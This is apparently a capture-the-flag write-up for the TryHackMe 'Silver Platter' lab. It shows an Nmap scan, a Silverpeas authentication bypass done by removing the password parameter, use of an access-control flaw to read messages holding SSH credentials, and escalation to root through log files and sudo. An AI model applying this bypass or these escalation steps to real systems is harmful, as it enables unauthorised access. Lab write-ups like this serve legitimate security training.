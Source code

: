 # THM - Silver Platter

### Ip: 10.129.21.176
### Name: Silver Platter
### Rating: Easy

------------------------------------------------

![thm_silver_platter_pic.png](../assets/silver_platter_assets/thm_silver_platter_pic.png)

### Intro:

```
Welcome to Silver Platter

Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite hacking skills. Good luck, and may the best hacker win!

But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game. Remember, only the most ingenious will rise to the top. 

May your code be swift, your exploits flawless, and victory yours!
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Silver_Platter]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.234.44
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-13 10:53 CST
Nmap scan report for 10.10.234.44
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b1c878afe3416c9f782372b108f8bf1 (ECDSA)
|_  256 266d17ed839e4f2df6cd5317c8803d09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 13 Jan 2025 16:53:48 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 13 Jan 2025 16:53:47 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|_http-title: Error
```

Looking at the page on port 80 we find a simple site for a security company:

![thm_silver_platter_site.png](../assets/silver_platter_assets/thm_silver_platter_site.png)

Clicking on the Contact button we find:

![thm_silver_platter_contact.png](../assets/silver_platter_assets/thm_silver_platter_contact.png)

We can access the SilverPeas login at http://10.10.234.44:8080/silverpeas

![thm_silver_platter_login.png](../assets/silver_platter_assets/thm_silver_platter_login.png)

### Exploitation

Looking for Silverpeas exploits I find some info about a login bypass at: https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

We can replicate this by capturing a login attempt in burp and removing the password field as demonstrated in the writeup:

```
Login=SilverAdmin&DomainId=0
```

![thm_silver_platter_burp.png](../assets/silver_platter_assets/thm_silver_platter_burp.png)

Forwarding the request we find ourselves authenticated:

![thm_silver_platter_in.png](../assets/silver_platter_assets/thm_silver_platter_in.png)

Looking for more silverpeas exploits I find:

https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323

Which outlines a broken access control vulnerability that allows us to view all messages.

Browsing the messages using the ID parameter we find:

![thm_silver_platter_creds.png](../assets/silver_platter_assets/thm_silver_platter_creds.png)

Nice, looks like we've got some SSH credentials here: `tom:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`

We can use these to SSH onto the box and grab the user.txt flag:

![thm_silver_platter_user.png](../assets/silver_platter_assets/thm_silver_platter_user.png)

### Privilege Escalation

Running the `id` command we see that user tim is in the `adm` group, which means we will likely have read access to several files in `/var/log`.

```
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

In `/var/log` we find a few interesting log files and discover a credential in auth.log.2 and can use this to `su tyler`:

![thm_silver_platter_log.png](../assets/silver_platter_assets/thm_silver_platter_log.png)

```
tim@silver-platter:/var/log$ su tyler
Password: 
tyler@silver-platter:/var/log$
```

Now that we are user tyler we can run `sudo -l` and find:

```
tyler@silver-platter:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

We can now run:

```
tyler@silver-platter:/var/log$ sudo su -
root@silver-platter:~# whoami
root
```

And grab the final flag:

![thm_silver_platter_root.png](../assets/silver_platter_assets/thm_silver_platter_root.png)

Thanks for following along!

-Ryan

----------------------------------------------
